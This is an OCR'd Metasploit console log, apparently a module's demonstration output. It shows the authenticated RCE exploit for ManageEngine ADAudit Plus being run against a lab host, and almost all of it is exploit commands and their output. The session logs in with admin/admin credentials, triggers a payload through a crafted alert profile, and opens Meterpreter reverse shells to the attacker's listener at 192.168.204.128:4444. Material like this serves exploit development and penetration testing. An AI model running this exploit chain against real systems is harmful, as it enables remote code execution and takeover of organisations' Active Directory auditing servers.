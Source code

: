 ```


Payload options (cmd/windows/powershell_reverse_tcp):

Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
LPORT         4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set payload cmd/windows/powershell/x64/meterpreter/reverse_tcp
payload => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 6077
[*] Attempting to create an alert profile
[+] Successfully created alert profile iEQnR24qE9n1
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[*] Sending stage (200774 bytes) to 192.168.204.132
[*] Sending stage (200774 bytes) to 192.168.204.132
[-] Failed to load extension: uninitialized constant Rex::Post::Meterpreter::Extensions::Stdapi::Stdapi
WARNING: Local file /home/gwillcox/git/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[!] If the client portion of stdapi or priv fails to load, you can do so manually via 'load stdapi' and/or load priv'
[*] Meterpreter session 4 opened (192.168.204.128:4444 -> 192.168.204.132:62858) at 2023-05-04 19:45:48 -0500
[*] Attempting to delete alert profile iEQnR24qE9n1
[*] Meterpreter session 3 opened (192.168.204.128:4444 -> 192.168.204.132:62857) at 2023-05-04 19:45:48 -0500
[+] Successfully deleted alert profile iEQnR24qE9n1

meterpreter > load stdapi
Loading extension stdapi...Success.
meterpreter > load priv
[!] The "priv" extension has already been loaded.
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
```